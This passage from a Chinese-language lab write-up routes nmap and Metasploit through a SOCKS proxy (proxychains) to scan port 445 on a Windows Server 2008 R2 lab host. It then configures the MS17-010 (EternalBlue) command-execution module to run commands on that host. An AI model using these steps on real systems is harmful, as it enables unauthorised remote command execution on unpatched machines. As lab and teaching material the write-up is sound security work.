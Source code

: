 开始运行sock代理，jobs可以看到正在运行的服务

![image-20241211001046741](https://zyysite.oss-cn-hangzhou.aliyuncs.com/202412111439820.png)

#### 设置SOCKS

```
sudo vim etc/proxychains4.conf 
```

配置里面的文件

最后改为

```
socks5 127.0.0.1 1080
```

![image-20241211145535694](https://zyysite.oss-cn-hangzhou.aliyuncs.com/202412111455784.png)

扫描192.168.247.130（windows server 2008 R2 的ip）445端口

(永恒之蓝攻击主要利用445和139端口)

扫描可以看见端口445 OK（说明open）

```
nmap -sT -Pn -p 445 192.168.247.130
```

![image-20241210231558020](https://zyysite.oss-cn-hangzhou.aliyuncs.com/202412111441588.png)

```
proxychains msfconsole
```

启用MSF

![image-20241210231656182](https://zyysite.oss-cn-hangzhou.aliyuncs.com/202412111441584.png)

```
use auxiliary/admin/smb/ms17_010_command
```

用该模块在网段里搜索容易被MS17-010漏洞影响的Windows主机

![image-20241210231843922](https://zyysite.oss-cn-hangzhou.aliyuncs.com/202412111441594.png)

```
set rhosts 192.168.247.130
```

![image-20241210231831010](https://zyysite.oss-cn-hangzhou.aliyuncs.com/202412111441598.png)

set command + 指令

相当设定发给rhosts ip 的指令，

run运行发送
